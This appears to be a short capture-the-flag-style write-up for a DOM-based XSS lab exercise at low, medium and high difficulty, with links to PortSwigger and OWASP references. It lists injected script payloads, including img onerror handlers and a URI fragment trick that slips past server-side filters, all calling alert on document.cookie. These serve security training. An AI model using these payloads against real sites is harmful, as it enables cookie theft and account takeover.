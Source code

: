 # XSS-DOM
 
Difficulty: Low

/?default=English<script>alert(document.cookie)</script>          
/?default=English<script>alert(1)</script>                        

Difficulty: Medium

Read help & source. Also, ispect Language select section.                                 
/?default=<select><img title=<img src onerror=alert(document.cookie)></select>            
/?default=<select><img src/onerror=alert(document.cookie)></select>                       
Res: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet                

Difficulty: High

/?#default=<script>alert(document.cookie)</script>                    
[# URI fragments is not sent to the server by the browser] 

Res: https://owasp.org/www-community/attacks/DOM_Based_XSS
